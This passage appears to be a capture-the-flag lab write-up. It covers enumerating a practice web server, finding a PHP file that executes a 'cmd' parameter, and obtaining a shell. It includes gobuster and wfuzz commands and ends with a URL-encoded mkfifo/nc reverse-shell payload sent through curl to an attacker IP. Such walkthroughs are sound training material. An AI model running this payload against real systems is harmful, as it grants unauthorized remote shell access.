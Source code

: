 After enumerating the website, we can see this `contact.html` page which accepts user-input.
![bae447c7a91e4aa4200460656ba4ad0c.png](bae447c7a91e4aa4200460656ba4ad0c.png){: w="700" h="300" .center .shadow}

But after further inspection, we see that the form doesn't really do anything because of the `action="#"` which simply reloads the webpage.

![a4931d2146b5cfdef62841f71aa3c64d.png](a4931d2146b5cfdef62841f71aa3c64d.png){: w="500" h="300" .center .shadow}

### Remote Code Execution
After spending some time enumerating directories and subdomains, we find the directory `/assets`

I started fuzzing this directory and that's when I found `index.php`
```console
$ gobuster dir -h "http://10.10.208.34/assets" -x php,html,txt -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt

http://10.10.208.34/assets/.php                 (Status: 403) [Size: 277]
http://10.10.208.34/assets/.html                (Status: 403) [Size: 277]
http://10.10.208.34/assets/index.php            (Status: 200) [Size: 0]
http://10.10.208.34/assets/images               (Status: 301) [Size: 320] [--> http://10.10.208.34/assets/images/]
http://10.10.208.34/assets/.html                (Status: 403) [Size: 277]
http://10.10.208.34/assets/.php                 (Status: 403) [Size: 277]
```
{: .wrap }

This was very intressting to me since all other webpages were `html` files and since this was the only `php` file on the server, my spidey senses started tingling. So I added `?cmd=whoami` in the url and what do you know, we get something back:

![db7b5dc6c2804b42ec283a31e9c7ad8d.png](db7b5dc6c2804b42ec283a31e9c7ad8d.png){: w="600" h="300" .center .shadow}

> We could have fuzzed the parameters of this file by doing something like this:
> ```console
> wfuzz -u 'http://10.10.208.34/assets/index.php?FUZZ=id' -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words.txt -c --hw 0
> ```
{: .prompt-tip}

## Flag 1

### Getting a reverse shell
Since the output looked like it's `base64 encoded`, I used curl and piped its output to `base64 -d`
![3eb44c3ef5420f709142a879d6a4a875.png](3eb44c3ef5420f709142a879d6a4a875.png){: w="700" h="300" .center .shadow}
- We are `www-data`
- Now we can simply run a reverse-shell payload and get access to the server

I used this payload (mkfifo) and url encoded it
```shell
$ curl -s 'http://10.10.208.34/assets/index.php?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%2010.11.75.248%2053%20%3E%2Ftmp%2Ff'
```
{: .wrap }
